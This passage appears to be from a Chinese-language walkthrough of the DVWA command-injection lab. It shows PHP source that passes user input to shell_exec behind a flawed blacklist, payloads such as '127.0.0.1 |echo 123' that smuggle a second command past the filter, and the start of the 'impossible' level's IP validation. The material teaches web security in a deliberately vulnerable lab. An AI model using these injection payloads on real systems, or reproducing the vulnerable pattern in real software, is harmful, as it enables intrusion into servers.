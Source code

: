 ```php
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```



一樣是 || 字串，這種字串型給了我們繞過的機會。


payload
```
x |;| echo 123
```


另一個(不過太假了，多一個空格)
```
'| ' => '',
```

只要 | 的右邊不要有空個就好，
雖說 | 作為管道符，但是如果 cmd2 不需要 cmd1的stdout做為輸入也不會有任何問題

payload:
```
127.0.0.1 |echo 123
```





## impossible

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $target = $_REQUEST[ 'ip' ];
    $target = stripslashes( $target );

    // Split the IP into 4 octects
    $octet = explode( ".", $target );


    // Check IF each octet is an integer
    if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) {
        // If all 4 octets are int's put the IP back together.
        $target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3];

```